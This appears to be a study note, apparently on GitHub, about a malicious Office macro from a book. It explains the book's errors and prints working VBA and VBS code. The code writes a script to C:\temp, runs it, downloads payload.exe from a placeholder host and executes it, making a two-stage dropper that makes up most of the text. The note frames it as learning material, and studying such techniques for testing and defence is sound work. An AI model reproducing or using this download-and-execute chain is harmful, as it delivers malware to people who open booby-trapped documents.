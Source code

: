  In the book the original macro code doesn't work for several reasons. Below I go more into detail on how this macro works. 
 
 Dim is used to specify a variable and what type it is. PayLoadFile is an integer because the FreeFile function called earlier is used to find
 a available file name number and use that to open the file. https://docs.microsoft.com/en-us/office/vba/language/reference/user-interface-help/freefile-function
 
 Reading through Microsofts guide on Open call. We can see that TextFile is invalid in line 6, you either have to give a number such as #3 or put in
 PayloadFile which will be a numeral thanks to FreeFile function.
 
 https://docs.microsoft.com/en-us/office/vba/language/reference/user-interface-help/open-statement
 
 Another issue I had was with the VBS script below. You will need to put double quotes around quotes in the actual code. This is
 because the VBA Macro won't include the quotes when sending it to the file. for example myPath, "\" should be mypath, ""\"". 

VBA Macro

Sub WritePayload()
  Dim PayLoadFile As Integer
  Dim FilePath As String
  FilePath = "C:\temp\payload.vbs"
  PayloadFile = FreeFile
  Open FilePath For Output As TextFile
  Print #PayLoadFile, "VBS Script Line 1"
  Print #PayLoadFile, " VBS Script Line 2"
  Print #PayLoadFile, " VBS Script Line 3"
  Print #PayLoadFile, " VBS Script Line 4"
  Close PayloadFile
  Shell "wscript c:\temp\payload.vbs"
End Sub

VBS Script

What it does is create an object download the file. and then use wsshell to execute it. Overall the macro creates the vbs, and creates the script. 
Macro executes script in shell. Our second stage takes over which is seen in the download of payload.exe in the vbs script, and execution through wsshell

HTTPDownload "http://www.wherever.com/files/payload.exe", "C:\temp"
Sub HTTPDownload( myURL, myPath )
  Dim i, objFile, objFSO, objHTTP, strFile, strMsg
  Const ForReading = 1, ForWriting = 2, ForAppending = 8
  Set objFSO = CreateObject( "Scripting.FileSystemObject" )
  If objFSO.FolderExists( myPath ) Then
    strFile = objFSO.BuildPath( myPath, Mid( myURL, InStrRev(myURL, "/" ) + 1 ) )
  ElseIf objFSO.FolderExists( Left( myPath, InStrRev( myPath, "\") - 1 ) ) Then
    strFile = myPath
  End If
  Set objFile = objFSO.OpenTextFile( strFile, ForWriting, True )
  Set objHTTP = CreateObject( "WinHttp.WinHttpRequest.5.1" )
  objHTTP.Open "GET", myURL, False
  objHTTP.Send
  For i = 1 To LenB( objHTTP.ResponseBody )
  objFile.Write Chr( AscB( MidB( objHTTP.ResponseBody, i, 1 ) ) )
  Next
  objFile.Close( )
  Set WshShell = WScript.CreateObject("WScript.Shell")
  WshShell.Run "c:\temp\payload.exe"
End Sub

